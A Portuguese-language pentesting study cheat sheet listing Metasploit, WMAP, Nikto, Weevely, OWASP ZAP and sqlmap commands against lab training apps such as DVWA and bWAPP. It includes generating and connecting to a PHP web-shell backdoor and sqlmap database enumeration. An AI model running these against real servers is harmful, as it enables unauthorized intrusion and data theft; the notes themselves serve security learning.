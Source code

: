 ```
        $ use <exploit>  => ex:  exploit/unix/ftp/vsftpd_234_backdoor
        $ search <tag>   => ex: search http
        ***********
        $ load wmap      => Metasploit conta com um plugin chamado WMAP que faz uma varredura de possíveis vulnerabilidades da nossa aplicação e lista as ferramentas que podemos usar (e, inclusive, possibilita a execução de todas elas de uma vez só). Para carregar esse plugin, vamos rodar o comando load wmap
        $ wmap_sites -a http://192.168.100.157 => informar a localização do nosso servidor, onde o WMAP fará a varredura. No caso, será o IP do servidor com a flag -a para indicar a URL
        $ wmap_targets -t http://192.167.100.167/bWAPP/  => Após pressionar "Enter", seremos informados de que o site foi criado. Em seguida, indicaremos a página da aplicação (target uri) em que vamos realizar a busca. No caso, será a bWAP
        $ wmap_run -t   => Com o target definido, vamos rodar o comando wmap_run seguido da flag -t, para que o WMAP encontre vulnerabilidades e liste os módulos que podemos usar no Metasploit
        $ wmap_run -e   => Para rodar todos esses módulos
        $ 
        ***********
        $ 
        $ 
        $ 
https://www.guiadoti.com/2018/04/metasploit-framework-parte-1/
https://www.guiadoti.com/2018/05/metasploit-framework-de-cabo-a-rabo-parte-2/
...
Até a parte 6
!Nessus:
      * Nessus Cloud é um programa de verificação de falhas/vulnerabilidades de segurança. Ele é composto por um cliente e servidor, sendo que o scan propriamente dito é feito pelo servidor.
!Software Nikto:
     * Nikto é um scanner de vulnerabilidades de software livre acessado por CLI, usado para escanear servidores web em busca de arquivos perigosos, programas desatualizados e outros problemas. É capaz de fazer tanto análises genéricas como análises específicas de servidor. Também faz a captura e exibição de cookies HTTP.
       ! Existem ferramentas como o Nikto que são capazes de “scanear” um servidor web, listando informações de servidor, como qual tecnologia utilizada, versão, etc e os links referentes a um domínio. Com isso, podemos descobrir páginas que teoricamente não eram para ser indexadas, e se tiver alguma página com conteúdo privado que não esteja com nenhum processo de autenticação, qualquer usuário poderá acessar.
       $ nikto -h "http://192.168.1.37/multillidae/"
       $
!Software Weevely:
     * O WEEVELY é uma ferramenta desenvolvida em Python que permite que um Backdoor seja gerado no formato .php e se executado em um host remoto pode obter o console do sistema.
       $ weevely generate 1234 aplicacao.php => Generated backdoor with password '1234' in 'aplicacao.php' of 1429 byte size
       $ weevely "http://192.168.1.42/dvwa/hackable/uploads/aplicacao.php" 1234  => Caso aja conexeção significa que o backdor conseguiu acesso ao servidor
!Owasp-zap:        ****warning*** -> não pode ser usado em sites da internet
     * Traduzido do inglês-OWASP ZAP é um scanner de segurança de aplicativos da web de código aberto. Ele deve ser usado tanto por aqueles que são novos em segurança de aplicativos quanto por testadores de penetração profissionais. É um dos projetos mais ativos do Open Web Application Security Project e recebeu o status de carro-chefe.
       $ 
!Sqlmap: 
     * Sqlmap é uma ferramenta open source para teste de penetração que automatiza o processo de detecção e exploração de vulnerabilidades de Injeção de SQL, permitindo a invasão de banco de dados de sites.
       $ sqlmap -u "URL_DO_FORMS"        => Testa várias injeções e retorna se encontrou alguma vunerabilidade
       $ sqlmap -u "URL_DO_FORMS" --dbs  => Lista os banco de dados do site.
       $ sqlmap -u "URL_DO_FORMS" --current-db         => retorna o banco de dados usado
       $ sqlmap -u "URL_DO_FORMS" --tables -D nowasp   => Uma vez que descobrimos qual o banco, podemos obter o número de tabelas que ele possui e o nome delas
```